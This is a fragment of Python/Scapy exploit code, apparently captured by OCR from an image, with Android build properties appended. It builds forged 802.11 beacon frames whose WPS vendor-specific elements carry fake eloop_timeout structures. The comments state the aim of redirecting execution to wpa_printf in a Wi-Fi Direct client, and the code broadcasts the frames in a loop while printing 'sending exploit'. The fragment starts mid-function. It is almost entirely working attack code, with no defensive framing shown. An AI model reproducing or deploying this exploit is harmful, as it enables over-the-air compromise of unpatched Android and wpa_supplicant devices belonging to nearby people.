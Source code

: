 ```
    vendor1 = Dot11EltVendorSpecific(oui=0x0050f2, info=(
        b"\x04\x10\x49" +                    # vendor extension id
        struct.pack(">H", len(ext_data1)) +  # length of 1st payload
        ext_data1))                          # 1st payload data

    ext_data2 = (
        p64(eloop_next) +            # next: address of terminator
        p64(eloop) +                 # previous: address of ext_data1
        p64(0) + p64(0) +            # times set to 0 so it runs right away
        p64(5) + p64(p2+0x38) +      # error level, address of msg 
        p64(wpa_printf) +            # addr of wpa_printf to jump to 
        msg + b"\x00"*(8-len(msg)))  # message and null padding

    vendor2 = Dot11EltVendorSpecific(oui=0x0050f2, info=(
        b"\x04\x10\x49" +                    # vendor extension id
        struct.pack(">H", len(ext_data2)) +  # length of 2nd payload
        ext_data2))                          # 2nd payload data

    mac = RandMAC() # (fake) mac address of source 
    dot11 = Dot11FCS(addr1=target, addr2=mac, addr3=mac)
    beacon = Dot11Beacon(cap='ESS+privacy')
    essid = Dot11Elt(ID='SSID', info='DIRECT-XX') 
    rates = Dot11Elt(ID='Rates', info=b"\x48")    
    rsn = Dot11Elt(ID='RSNinfo', info=(
        b"\x01\x00"          # RSN Version 1
        b"\x00\x0f\xac\x02"  # Group Cipher Suite : 00-0f-ac TKIP
        b"\x02\x00"          # 2 Pairwise Cipher Suites 
        b"\x00\x0f\xac\x04"  # AES Cipher
        b"\x00\x0f\xac\x02"  # TKIP Cipher
        b"\x01\x00"          # 1 Authentication Key Management Suite 
        b"\x00\x0f\xac\x02"  # Pre-Shared Key
        b"\x00\x00"))        # RSN Capabilities 

    # assemble packet
    packet = RadioTap()/dot11/beacon/essid/rates/rsn/p2p

    # add fake eloop_timeout elements
    for vendor in (vendor1, vendor2):
        for i in range(5):
            packet = packet / vendor

    return packet 

mac1 = b"AAAAAA"  # first dev MAC
mac2 = b"BBBBBB"  # first client MAC

# two packets with swapped addresses 
# to free at least ones vendor_ext
packet1 = build_beacon(mac1, mac2)
packet2 = build_beacon(mac2, mac1)

print("sending exploit to %s" % target)
sendp([packet1, packet2], iface=iface, inter=0.100, loop=1)


```


[ro.build.version.release]: [7.0]
[ro.build.version.sdk]: [24]
[ro.build.version.security_patch]: [2019-08-05]